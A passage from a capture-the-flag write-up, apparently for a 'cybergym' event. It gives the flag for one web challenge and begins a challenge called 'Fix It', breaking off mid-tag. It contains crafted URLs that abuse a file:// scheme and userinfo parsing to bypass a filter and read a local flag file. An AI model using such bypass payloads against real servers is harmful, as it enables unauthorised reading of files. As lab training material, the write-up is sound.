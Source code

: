 We’ll use this information to construct a URL for the bypass.

**http://challenges.lucideus.in:1111/?a=file://flag@localhost:80@c3483264cea221ce6fa7366baa358ea6e0aa6f61/flag**

**http://challenges.lucideus.in:1111/?a=file://flag@localhost:80@c3483264cea221ce6fa7366baa358ea6e0aa6f61/flag**

Even the below one works.

**http://challenges.lucideus.in:1111/?a=file://c3483264cea221ce6fa7366baa358ea6e0aa6f61/flag**

<p align="center"><strong>Flag : cygym{1 2lways 5l6y lt Qu33n}</strong></p>

<p align="center">Fix It</p>

Team Name: **Shinobies**

Let’s open the given URL for the Challenge. <http://challenges.lucideus.in:1234>

<p align="center">
  <img src="/images/cybergym3/web10.png">
</p>

As we can see, this page contains some jpg files.

Let’s open an Image and see what it looks like

<p align="center">